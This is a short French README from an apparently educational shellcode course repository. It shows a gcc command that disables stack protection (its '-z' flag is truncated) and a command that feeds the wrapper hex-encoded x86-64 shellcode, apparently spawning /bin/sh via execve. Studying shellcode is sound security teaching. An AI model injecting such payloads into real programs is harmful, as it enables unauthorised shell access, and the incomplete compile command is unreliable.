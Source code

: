 # Shellcode
Dépo du cours de ShellCode

<strong>GUIDE D'UTILISATION : </strong>

<strong>Pour compiler : </strong>
      
      gcc wrapper.c -o wrapper -fno-stack-protector -z 

<strong>Pour executer :</strong>

      ./wrapper $(python2 -c 'print("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")'
